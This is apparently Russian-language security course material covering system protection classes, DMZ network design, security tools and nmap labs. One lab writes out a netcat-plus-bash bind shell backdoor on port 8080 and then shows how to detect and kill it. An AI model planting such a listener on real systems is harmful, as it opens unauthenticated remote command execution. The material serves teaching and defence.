# Модуль 1. Периметры безопасности и размещение сервисов в сети предприятия

## Обзор моделей безопасности и обязанностей администратора безопасности компьютерной сети

[Должностная инструкция aдминистраторa информационной безопасности](https://clck.ru/RLQU6)

[Должностная инструкция администратора безопасности компьютерных систем и сетей](https://clck.ru/RLQVR)

[Руководящий документАвтоматизированные системы. Защита от несанкционированного доступа к информации Классификация автоматизированных систем и требования по защите информации](https://clck.ru/DXeeB)

**Важный факт!**
*Вопросы информационной безопасности можно рассматривать только 
при наличии четко определенных конфликтующих сторон.*

Сокращения:
> АС - автоматизированные системы
> НСД - несанкционированный доступ
> СЗИ - система защиты информации
> СЗИ НСД - система защиты информации от несанкционированного доступа

1. Классификация распространяется на все действующие и проектируемые АС учреждений, организаций и предприятий, обрабатывающие конфиденциальную информацию.
2. Деление АС на соответствующие классы по условиям их функционирования с точки зрения защиты информации необходимо в целях разработки и применения обоснованных мер по достижению требуемого уровня защиты информации.
3. Дифференциация подхода к выбору методов и средств защиты определяется важностью обрабатываемой информации, различием АС по своему составу, структуре, способам обработки информации, количественному и качественному составу пользователей и обслуживающего персонала.
4. Необходимыми исходными данными для проведения классификации конкретной АС являются:

	* перечень защищаемых информационных ресурсов АС и их уровень конфиденциальности;
	* перечень лиц, имеющих доступ к штатным средствам АС, с указанием их уровня полномочий;
	* матрица доступа или полномочий субъектов доступа по отношению к защищаемым информационным ресурсам АС;
	* режим обработки данных в АС.

1. К числу определяющих признаков, по которым производится группировка АC в различные классы, относятся:

	* наличие в АС информации различного уровня конфиденциальности;
	* уровень полномочий субъектов доступа АС на доступ к конфиденциальной информации;
	* режим обработки данных в АС - коллективный или индивидуальный.

1. Устанавливается три группы и девять классов защищенности АС от НСД к информации.

	- Третья группа включает АС, в которых работает один пользователь. Группа содержит два класса - 3Б и 3А.
	- Вторая группа включает АС, в которых работает много пользователей с одинаковыми правами. Группа содержит два класса - 2Б и 2А.
	- Первая группа включает многопользовательские АС. Группа содержит пять классов - 1Д, 1Г, 1В, 1Б и 1А.

*Примеры*

### Калькулятор Windows.

С т.з. данной программы все пользователи - один. Т.е. категория - 3.

### Windows 9x

В системе присутствует "Окно входа в систему"...



... т.е. пользователи различаются. Но из-за ограничений файловой системы FAT(VFAT) 
их права не разграничены. Т.е. категория 2.

### Ubuntu Linux



Как мы знаем, в большинстве современных ОС имеется разделение прав доступа к объектам. Т.е. Ubuntu (например) - категория 1.

### Вопросы:
1) Правомочно ли рассматривать Калькулятор Windows как АС?

2) Приведите примеры АС II категории?

3) Определите категорию АС: сайт статической верстки, обновление выполняется по FTP.

### Основные требования к АС

Идентификация, проверка подлинности и контроль доступа субъектов

Регистрация и учет: входа (выхода) субъектов доступа в (из) систему(ы) (узел сети)

Регистрация и учет: выдачи печатных (графических) выходных документов

Регистрация и учет: запуска (завершения) программ и процессов (заданий, задач)

Регистрация и учет: доступа  программ  субъектов  доступа  к  файлам, 

Регистрация и учет: доступа к терминалам, ЭВМ, узлам сети ЭВМ, каналам связи, внешним устройствам ЭВМ, программам, томам, каталогам, файлам, записям, полям записей.

Регистрация и учет: изменения полномочий субъектов доступа.

 - дата и время входа (выхода) субъекта доступа в систему (из системы) или загрузки (останова) системы.
 - результат   попытки   входа:   успешная   или   неуспешная 
 - несанкционированная;
 - идентификатор (код или фамилия) субъекта, предъявленный при попытке доступа;
 - должен  проводиться  учет  всех  защищаемых  носителей  информации  с помощью их маркировки и с занесением учетных данных журнала (учетную карточку);
 - учет защищаемых носителей должен проводиться в журнале с регистрацией их выдачи.

Обеспечение целостности программных средств и обрабатываемой информации

 - целостность СЗИ НСД проверяется при загрузке системы по контрольным суммам компонент СЗИ;
 - целостность  программной  среды  обеспечивается  использованием трансляторов с языков высокого уровня и отсутствием средств модификации объектного  кода  программ  в  процессе  обработки  и  хранения защищаемой информации;
 - должно проводиться периодическое тестирование функций СЗИ НСД при изменении программной среды и персонала АС с помощью тест-программ, имитирующих попытки НСД;
 - должны  быть  в  наличии  средства  восстановления  СЗИ  НСД, предусматривающие ведение двух копий программных средств СЗИ НСД и их периодическое обновление и контроль работоспособности.

Наличие администратора (службы) защиты информации в АС

Периодическое тестирование СЗИ НСД

Наличие средств восстановления СЗИ НСД

### Задачи и функции Администратора информационной безопасности

- Kонтроль эффективности защиты информации;
- Cопровождение СЗИ от  НСД и основных технических средств и систем;
- Kонтроль разграничения доступа.
- Kонтроль соответствия действий пользователей АС требованиям.
- Участие на стадии проектирования (внедрения) АС в разработке технологии обработки информации ограниченного доступа (далее – информации) по вопросам:
	- организации порядка учета, хранения и обращения с документами и носителями информации;
  - определения степени секретности отдельных документов, носителей и массивов информации;
  - подготовки инструкций, определяющих задачи, функции, ответственность, права и обязанности  администраторов и пользователей АС по вопросам защиты информации, а также ответственных по защите информации в процессе автоматизированной обработки информации.
- Сопровождение СЗИ от НСД к ней, в том числе средств криптографической защиты информации.
- Контроль соответствия общесистемной программной среды стандарту (контроль целостности программного обеспечения) и проверка включаемых в АС новых программных средств.
- Методическое руководство работой администраторов и пользователей АС в вопросах обеспечения информационной безопасности.
- Ведение переченя установленных в подразделениях ОТСС, СЗИ от НСД и перечень задач, решаемых с их использованием.
- Непосредственное управление режимами работы и административную поддержку функционирования \ применяемых на рабочих станциях специальных программных и программно-аппаратных СЗИ от НСД.
- Периодически проверять состояние используемых СЗИ от НСД, осуществлять проверку правильности их настройки (выборочное тестирование).
- Вести журнал учета нештатных ситуаций, фактов вскрытия и опечатывания, защищенных СВТ, выполнения профилактических работ, установки и модификации аппаратных и программных СЗИ.
- Проводить работу по выявлению возможности вмешательства в процесс функционирования АС и осуществления НСД к информации и техническим средствам РС.
- Докладывать руководству о выявленных угрозах безопасности информации, обрабатываемой в АС, об имевших место попытках НСД к информации и техническим средствам РС.

## Разделение сервисов сети предприятия 

### Вариант 1. Плоская сеть



В данном варианте все узлы корпоративной сети содержатся в одной, общей для всех сети («Внутренняя сеть»), в рамках которой коммуникации между ними не ограничиваются. Сеть подключена к Интернет через пограничный маршрутизатор/межсетевой экран.

Плюсы варианта:

 - Минимальные требования к функционалу IFW (можно сделать практически на любом, даже домашнем роутере).
	
 - Минимальные требования к знаниям специалиста, осуществляющего реализацию варианта.

Минусы варианта:

  - Минимальный уровень безопасности. В случае взлома, при котором Нарушитель получит контроль над одним из опубликованных в Интернете серверов, ему для дальнейшей атаки становятся доступны все остальные узлы и каналы связи корпоративной сети.

### Вариант 2. DMZ



Для устранения этого недостатка узлы сети, доступные из Интернет, помещают в специально выделенный сегмент – демилитаризованную зону (DMZ). DMZ организуется с помощью межсетевых экранов, отделяющих ее от Интернет 
(IFW) и от внутренней сети (DFW).

При этом правила фильтрации межсетевых экранов выглядят следующим образом:

- Из внутренней сети можно инициировать соединения в DMZ и в WAN (Wide Area Network).
- Из DMZ можно инициировать соединения в WAN.
- Из WAN можно инициировать соединения в DMZ.
- Инициация соединений из WAN и DMZ ко внутренней сети запрещена.

Плюсы варианта:

 - Повышенная защищённость сети от взломов отдельных сервисов. Даже если один из серверов будет взломан, Нарушитель не сможет получить доступ к ресурсам, находящимся во внутренней сети (например, сетевым принтерам, системам видеонаблюдения и т.д.).

Минусы варианта:

- Сам по себе вынос серверов в DMZ не повышает их защищенность.
- Необходим дополнительный МЭ для отделения DMZ от внутренней сети.

### Вариант 3. Разделение сервисов на Front-End и Back-End



Одним из вариантов исправления ситуации является разделение функционала сервиса на две части: Front-End и Back-End. При этом каждая часть располагается на отдельном сервере, между которыми организуется сетевое взаимодействие. Сервера Front-End, реализующие функционал взаимодействия с клиентами, находящимися в Интернет, размещают в DMZ, а сервера Back-End, реализующие остальной функционал, оставляют во внутренней сети. Для взаимодействия между ними на DFW создают правила, разрешающие инициацию подключений от Front-End к Back-End.

Плюсы варианта:

  - В общем случае атаки, направленные против защищаемого сервиса, могут «споткнуться» об Front-End, что позволит нейтрализовать или существенно снизить возможный ущерб. Например, атаки типа TCP SYN Flood или slow http read, направленные на сервис, приведут к тому, что Front-End сервер может оказаться недоступен, в то время как Back-End будет продолжать нормально функционировать и обслуживать пользователей.
  - В общем случае на Back-End сервере может не быть доступа в Интернет, что в случае его взлома (например, локально запущенным вредоносным кодом ) затруднит удаленное управление им из Интернет.
  - Front-End хорошо подходит для размещения на нем межсетевого экрана уровня приложений (например, Web application firewall) или системы предотвращения вторжений (IPS, например snort).

Минусы варианта:

  - Для связи между Front-End и Back-End на DFW создается правило, разрешающее инициацию соединения из DMZ во внутреннюю сеть, что порождает угрозы, связанные с использованием данного правила со стороны других узлов в DMZ (например, за счет реализации атак IP spoofing, ARP poisoning и т. д.)
  - Не все сервисы могут быть разделены на Front-End и Back-End.
  - В компании должны быть реализованы бизнес-процессы актуализации правил межсетевого экранирования.
  - В компании должны быть реализованы механизмы защиты от атак со стороны Нарушителей, получивших доступ к серверу в DMZ.

# Лабораторные работы: Развертывание шлюза и сетей предприятия

## Работа с nmap

	student@PC / $ nmap localhost

	Starting Nmap 7.40 ( https://nmap.org ) at 2020-10-12 18:03 +05
	Nmap scan report for localhost (127.0.0.1)
	Host is up (0.000084s latency).
	Other addresses for localhost (not scanned): ::1
	Not shown: 995 closed ports
	PORT     STATE SERVICE
	22/tcp   open  ssh
	25/tcp   open  smtp
	80/tcp   open  http
	631/tcp  open  ipp
	8081/tcp open  blackice-icecap

	Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
	student@PC / $ nmap -A localhost

	Starting Nmap 7.40 ( https://nmap.org ) at 2020-10-12 18:03 +05
	Nmap scan report for localhost (127.0.0.1)
	Host is up (0.000081s latency).
	Other addresses for localhost (not scanned): ::1
	Not shown: 995 closed ports
	PORT     STATE SERVICE  VERSION
	22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
	| ssh-hostkey: 
	|   2048 34:ca:ed:e8:f9:61:1d:4a:6f:35:20:04:1e:2c:6c:a1 (RSA)
	|_  256 12:15:e1:57:9a:92:98:0c:9f:bd:9b:0a:b1:29:bc:8e (ECDSA)
	25/tcp   open  smtp     Exim smtpd 4.89
	| smtp-commands: PC Hello localhost [127.0.0.1], SIZE 52428800, 8BITMIME, PIPELINING, PRDR, HELP, 
	|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
	80/tcp   open  http     Apache httpd 2.4.25 ((Debian))
	|_http-server-header: Apache/2.4.25 (Debian)
	|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
	631/tcp  open  ipp      CUPS 2.2
	| http-methods: 
	|_  Potentially risky methods: PUT
	| http-robots.txt: 1 disallowed entry 
	|_/
	|_http-server-header: CUPS/2.2 IPP/2.1
	|_http-title: Home - CUPS 2.2.1
	8081/tcp open  backdoor No-auth shell (**BACKDOOR**)
	Service Info: Host: PC; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
	Nmap done: 1 IP address (1 host up) scanned in 7.61 seconds

## Cозздание бэкдора
	student@PC / $ cd /tmp
	student@PC /tmp/ $ mkfifo fifo_file
	student@PC /tmp/ $ cat fifo_file | nc -l -p 8080 | bash > fifo_file

	while true
	do
		cat fifo_file | nc -l -p 8080 | bash > fifo_file	
	done
	
## Устранение бэкдора
	student@PC / $ netstat -apn | grep 8080
	(Not all processes could be identified, non-owned process info
	 will not be shown, you would have to be root to see it all.)
	tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      29656/nc            
	student@PC / $ ps fax | grep 29656
	29779 pts/2    S+     0:00  |   |   \_ grep --color=auto 29656
	29656 pts/4    S+     0:00  |       \_ nc -l -p 8080
	student@PC / $ ps fax | grep -B 3 29656
	 4943 pts/1    Ss+    0:00  |   \_ bash
	12740 pts/2    Ss     0:00  |   \_ bash
	29788 pts/2    R+     0:00  |   |   \_ ps fax
	29789 pts/2    S+     0:00  |   |   \_ grep --color=auto -B 3 29656
	16188 pts/3    Ss+    0:00  |   \_ bash
	29186 pts/4    Ss     0:00  |   \_ bash < родитель
	29655 pts/4    S+     0:00  |       \_ cat aa
	29656 pts/4    S+     0:00  |       \_ nc -l -p 8080
	^^^^^ PID бэкдора
	student@PC / $ kill 29656 бэкдор перезапустился
	student@PC / $ kill 29186 
	student@PC / $ kill -9 29186 бэкдор уничтожен
	student@PC / $ netstat -apn | grep 8080
								пусто!
	student@PC / $ nmap localhost
	Not shown: 996 closed ports
	PORT    STATE SERVICE
	22/tcp  open  ssh
	25/tcp  open  smtp
	80/tcp  open  http
	631/tcp open  ipp
															Порта 8080 нет в списке!

## Настройка шлюза для подключения сети предприятия к Internet

[Обеспечение работоспособности и защиты межсетевого экрана с помощью iptables](https://clck.ru/RLqPk)

[Проброс портов в локальную сеть с помощью iptables](https://clck.ru/RMGKn)

1) Изучить литературу по ссылке.

2) Используя виртуальную машину (или хост) сконфигурировать:

 - Файервол плоской сети
 - Проброс порта 80 на один из внутренних хостов

3) Продемонстрировать результат, используя nmap для тестирования.

[Работа с git](https://www.youtube.com/watch?v=wJARN099DUw)

# Модуль 2 Анализ информационных систем предприятия с точки зрения безопасности

## Обзор сканеров сетей и анализаторов траффика

[21 лучший инструмент Kali Linux для взлома и тестирования на проникновение](https://clck.ru/RMuaG)

### Инструмент Nmap 

Nmap — свободная утилита, предназначенная для разнообразного настраиваемого сканирования IP-сетей с любым количеством объектов, определения состояния объектов сканируемой сети (портов и соответствующих им служб). Изначально программа была реализована для систем UNIX, но сейчас доступны версии для множества операционных систем.

Nmap использует множество различных методов сканирования, таких как UDP, TCP (connect), TCP SYN (полуоткрытое), FTP-proxy (прорыв через ftp), Reverse-ident, ICMP (ping), FIN, ACK, Xmas tree, SYN- и NULL-сканирование. Nmap также поддерживает большой набор дополнительных возможностей, а именно: определение операционной системы удалённого хоста с использованием отпечатков стека TCP/IP, «невидимое» сканирование, динамическое вычисление времени задержки и повтор передачи пакетов, параллельное сканирование, определение неактивных хостов методом параллельного ping-опроса, сканирование с использованием ложных хостов, определение наличия пакетных фильтров, прямое (без использования portmapper) RPC-сканирование, сканирование с использованием IP-фрагментации, поиск уязвимостей SQL Injection, а также произвольное указание IP-адресов и номеров портов сканируемых сетей.

### Инструмент Wireshark 

Wireshark — программа-анализатор трафика для компьютерных сетей Ethernet и некоторых других. Имеет графический пользовательский интерфейс. Изначально проект назывался Ethereal, но, из-за проблем с торговой маркой, в июне 2006 года проект был переименован в Wireshark.

Функциональность, которую предоставляет Wireshark, очень схожа с возможностями программы tcpdump, однако Wireshark имеет графический пользовательский интерфейс и гораздо больше возможностей по сортировке и фильтрации информации. Программа позволяет пользователю просматривать весь проходящий по сети трафик в режиме реального времени, переводя сетевую карту в неразборчивый режим (англ. promiscuous mode).

Программа распространяется под свободной лицензией GNU GPL и использует для формирования графического интерфейса кроссплатформенную библиотеку GTK+ (планируется переход на Qt). Существуют версии для большинства UNIX-подобных систем, в том числе GNU/Linux, Solaris, FreeBSD, NetBSD, OpenBSD, Mac OS X, а также для Windows.

### Инструмент Nessus 

Nessus — программа для автоматического поиска известных изъянов в защите информационных систем. Она способна обнаружить наиболее часто встречающиеся виды уязвимостей, например:
Программа имеет клиент-серверную архитектуру, что сильно расширяет возможности сканирования.
Согласно проведенному порталом securitylab.ru опросу, nessus используют 17 % респондентов 
Прежде всего используется для сканирования портов и определяет сервисы, использующие их. Также проводится проверка сервисов по базе уязвимостей. Для тестирования уязвимостей используются специальные плагины, написанные на языке NASL(Nessus Attack Scripting Language).

### Инструмент John the Ripper 

John The Ripper (досл. Джон-потрошитель) — свободная программа, предназначенная для восстановления паролей по их хешам. Основное назначение программы — аудит слабых паролей в UNIX системах путём перебора возможных вариантов. ПО JtR способно создавать словари любой сложности, а также извлекать хеш из файла, что является одной из самых сильных сторон JtR по сравнению с аналогичными программами. Программа также может выполнять аудит NTLM хешей, Kerberos, и др. Существуют реализации под различные ОС. Весьма популярна из-за поддержки большого количества хешей, автораспознавания хеша и настраиваемого взломщика. Также поддерживает множество модулей, включая сторонние, предоставляющих поддержку MD4 хешей, LDAP и MySQL паролей и т.д. Кроме хешей паролей доступен перебор паролей к архивам, атаки на методы аутентификации (WPA, HMAC,...). Существует кросс-платформенный графический интерфейс Johny - GUI, который требуется устанавливать отдельно. На 2012 год поддерживалось более 30 форматов в jumbo версии. По состоянию на июль 2018 года JtR bleeding-jumbo версия поддерживает 262 формата.
На компьютерном сленге среди разработчиков JtR упоминается, как кровотечение.[источник не указан 424 дня]
Ниже представлен пример вывода программы во время работы в операционной системе Linux.

### Инструмент Snort 

Snort — свободная сетевая система предотвращения вторжений (IPS) и обнаружения вторжений (IDS) с открытым исходным кодом, способная выполнять регистрацию пакетов и в реальном времени осуществлять анализ трафика в IP-сетях.
Создана Мартином Рёшем (англ. Martin Roesch), в дальнейшем развивалась и поддерживалась основанной им компанией Sourcefire (поглощена Cisco в 2013 году).
Выполняет протоколирование, анализ, поиск по содержимому, а также широко используется для активного блокирования или пассивного обнаружения целого ряда нападений и зондирований, таких как попытки атак на переполнение буфера, скрытое сканирование портов, атаки на веб-приложения, SMB-зондирование и попытки определения операционной системы. Программное обеспечение в основном используется для предотвращения проникновения, блокирования атак, если они имеют место.

### Инструмент Nikto 

Nikto — веб-сканер, проверяющий веб-серверы на самые частые ошибки, возникающие обычно из-за человеческого фактора. Проверяет целевой веб-сервер на наличие опасных файлов и исполняемых сценариев, инструментов администрирования базами данных, устаревшего программного обеспечения.
Nikto — это  open-source веб-сканер, однако некоторые файлы, которые он использует для работы, таковыми не являются.
Nikto выиграл "Best IT Security Tools for 2009" от Security-Database в номинации программ с открытым исходным кодом для сканирования приложений.

### Инструмент Tripwire 

Tripwire — программа для мониторинга и предупреждения об изменениях файлов в системе. Проект имеет свободный исходный код, основан на разработках компании Tripwire, Inc. начала 2000-х годов.

Tripwire функционирует как хостовая система обнаружения вторжений и ведет наблюдение и анализ изменений файлов внутри системы. Отслеживания сетевого трафика приложение не производит.

Во время установки Tripwire сканирует файловую систему и сохраняет информацию о каждом найденном файле в базе данных. При последующих запусках программа сканирует те же файлы, сравнивает результаты с сохраненными в базе данных и, при необходимости, сообщает об изменениях пользователю. Для проверки целостности данных используется значения хеш-сумм, что позволяет не хранить полное содержимое файлов.

### Инструмент OSSEC 

OSSEC – это хостовая система обнаружения вторжений (HIDS), свободная и с открытым исходным кодом. Она ведёт анализ системных логов, проверку целостности, наблюдение за реестром ОС Windows, обнаружение руткитов, оповещение в заданное время и если будет обнаружено какое-либо событие. Она предоставляет функцию обнаружения вторжений для большинства операционных систем, включая Linux, OpenBSD, FreeBSD, Mac OS X, Solaris и Windows. Её кроссплатформенная архитектура позволяет легко управлять и наблюдать сразу за несколькими операционными системами. Она написана Даниэлем Б. Сидом, и доступна с 2004 года. 

В июне 2008 года проект OSSEC и все копирайты, принадлежащие лидеру проекта, Даниэлю Б. Сиду, приобрела компания Third Brigade. Компания обязуется совмещать разработку программы вместе с сообществом Open Source и предоставлять коммерческую поддержку и обучение пользователям OSSEC.

## Лабораторные работы

### Определение списка хостов с использованием nmap

	$ nmap 192.168.43.*

Результат:

	Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 12:23 +05
	Nmap scan report for gateway (192.168.43.1)
	Host is up (0.025s latency).
	Not shown: 999 closed ports
	PORT   STATE SERVICE
	53/tcp open  domain

	Nmap scan report for microlab (192.168.43.25)
	Host is up (0.000044s latency).
	Not shown: 999 closed ports
	PORT   STATE SERVICE
	22/tcp open  ssh

	Nmap scan report for macrolab (192.168.43.77)
	Host is up (0.025s latency).
	Not shown: 999 closed ports
	PORT   STATE SERVICE
	23/tcp open  telnet

	Nmap scan report for extralab (192.168.43.180)
	Host is up (0.012s latency).
	Not shown: 997 closed ports
	PORT    STATE SERVICE
	22/tcp  open  ssh
	80/tcp  open  http
	631/tcp open  ipp

	Nmap done: 256 IP addresses (4 hosts up) scanned in 6.08 seconds

### Определение типа сервиса на указанном хосте/порту

Используется типовой порт:

	$ nmap -A -p 631 192.168.43.180

Результат:

	Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 12:28 +05
	Nmap scan report for extralab (192.168.43.180)
	Host is up (0.0026s latency).
	PORT    STATE SERVICE VERSION
	631/tcp open  ipp     CUPS 2.2
	| http-methods: 
	|_  Potentially risky methods: PUT
	| http-robots.txt: 1 disallowed entry 
	|_/
	|_http-server-header: CUPS/2.2 IPP/2.1
	|_http-title: Home - CUPS 2.2.1

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 6.95 seconds

Обнаружен CUPS версии 2.2.1.



Используется "левый" порт и фальшивый сервер:



	echo "HTTP/1.1 200 OK"
	echo "Date: Wed, 11 Feb 2009 11:20:59 GMT"
	echo "Server: Apache"
	echo "X-Powered-By: PHP/5.2.4-2ubuntu5wm1"
	echo "Last-Modified: Wed, 11 Feb 2009 11:20:59 GMT"
	echo "Content-Language: ru"
	echo "Content-Type: text/html; charset=utf-8"
	echo "Connection: close"
	echo ""
	echo "<pre>"
	date
	echo "</pre>"

Peзультат:

	$ nmap -A -p 8080 localhost
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 12:46 +05
	Nmap scan report for localhost (127.0.0.1)
	Host is up (0.000065s latency).

	PORT     STATE SERVICE    VERSION
	8080/tcp open  http-proxy Apache
	| fingerprint-strings: 
	|   NULL: 
	|     HTTP/1.1 200 OK
	|     Date: Wed, 11 Feb 2009 11:20:59 GMT
	|     Server: Apache
	|     X-Powered-By: PHP/5.2.4-2ubuntu5wm1
	|     Last-Modified: Wed, 11 Feb 2009 11:20:59 GMT
	|     Content-Language: ru
	|     Content-Type: text/html; charset=utf-8
	|     Connection: close
	|     <pre>
	|     2020 12:46:01 +05
	|_    </pre>
	| http-open-proxy: Potentially OPEN proxy.
	|_Methods supported:CONNECTION
	|_http-server-header: Apache
	1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
	SF-Port8080-TCP:V=7.80%I=7%D=10/13%Time=5F855B39%P=x86_64-pc-linux-gnu%r(N
	SF:ULL,111,"HTTP/1\.1\x20200\x20OK\nDate:\x20Wed,\x2011\x20Feb\x202009\x20
	SF:11:20:59\x20GMT\nServer:\x20Apache\nX-Powered-By:\x20PHP/5\.2\.4-2ubunt
	SF:u5wm1\nLast-Modified:\x20Wed,\x2011\x20Feb\x202009\x2011:20:59\x20GMT\n
	SF:Content-Language:\x20ru\nContent-Type:\x20text/html;\x20charset=utf-8\n
	SF:Connection:\x20close\n\n<pre>\n\xd0\x92\xd1\x82\x2013\x20\xd0\xbe\xd0\x
	SF:ba\xd1\x82\x202020\x2012:46:01\x20\+05\n</pre>\n");

Peзультат на порту 18765:

	$ nmap -A localhost
	...
	PORT    STATE SERVICE VERSION
	22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
	631/tcp open  ipp     CUPS 2.3
	...

Фальшивый сервер *не обнаружен!*

	$ while true; do cat a | nc -l -p 18765 | ./http.sh > a; done
	GET / HTTP/1.0

	$ while true; do cat a | nc -l -p 8080 | ./http.sh > a; done
	GET / HTTP/1.0

	OPTIONS / HTTP/1.0

	GET / HTTP/1.1
	Host: localhost:8080
	Connection: close
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

	PROPFIND / HTTP/1.1
	Depth: 1
	Content-Length: 0
	Host: localhost:8080
